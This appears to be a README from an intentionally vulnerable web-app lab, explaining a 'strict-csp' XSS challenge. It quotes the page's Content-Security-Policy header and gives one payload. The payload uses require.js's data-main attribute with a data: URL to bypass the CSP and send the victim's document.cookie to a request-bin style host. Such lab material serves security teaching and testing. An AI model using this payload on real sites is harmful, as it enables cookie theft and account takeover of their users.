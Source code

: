 # strict-csp

Same as [csp](../csp/README.md), name and comment are vulnerable to XSS.

The CSP header is:

```http
Content-Security-Policy
    default-src 'self'; script-src 'strict-dynamic' 'nonce-EBZ5Jp7Kqi'; style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/; font-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/;object-src 'none'

Referrer Policy: strict-origin-when-cross-origin
```

With `<script data-main='data:1,"use strict"%0d%0awindow.location.href="some.request.bin.site?cookie="+document.cookie' src='require.js'></script>` we can bypass the CSP.
